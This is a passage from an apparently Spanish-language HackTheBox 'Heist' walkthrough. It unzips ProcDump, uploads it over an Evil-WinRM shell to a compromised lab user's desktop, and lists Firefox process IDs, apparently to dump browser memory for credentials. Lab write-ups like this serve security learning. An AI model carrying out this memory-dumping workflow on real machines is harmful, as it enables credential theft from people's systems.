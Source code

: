 ```bash
Type = zip
Physical Size = 731622

   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2022-11-03 15:55:14 .....       791960       364222  procdump.exe
2022-11-03 15:55:14 .....       424856       196343  procdump64.exe
2022-11-03 15:55:14 .....       407952       167513  procdump64a.exe
2022-11-03 15:55:00 .....         7490         3120  Eula.txt
------------------- ----- ------------ ------------  ------------------------
2022-11-03 15:55:14            1632258       731198  4 files
```

- Ahora ya los descomprimimos.

```bash
➜  content unzip Procdump.zip
Archive:  Procdump.zip
  inflating: procdump.exe
  inflating: procdump64.exe
  inflating: procdump64a.exe
  inflating: Eula.txt
```

- Y lo subimos ala maquina.

```bash
*Evil-WinRM* PS C:\Users\Chase\Desktop> upload procdump64.exe

Info: Uploading /home/miguel/Hackthebox/Heist/content/procdump64.exe to C:\Users\Chase\Desktop\procdump64.exe

Data: 566472 bytes of 566472 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\Users\Chase\Desktop> dir


    Directory: C:\Users\Chase\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/14/2024   3:07 AM         424856 procdump64.exe
-a----        4/22/2019   9:08 AM            121 todo.txt
-ar---        4/14/2024   1:56 AM             34 user.txt
```

- Necesitamos saber el PID para que funcione.

```bash
*Evil-WinRM* PS C:\Users\Chase\Desktop> ps | findstr firefox
   1083      69   135944     213292       5.03   6240   1 firefox
    347      20    10204      38616       0.08   6348   1 firefox
    401      34    32136      92488       0.78   6580   1 firefox
    378      28    22316      58980       0.38   6788   1 firefox
    355      25    16512      38936       0.08   7044   1 firefox
```
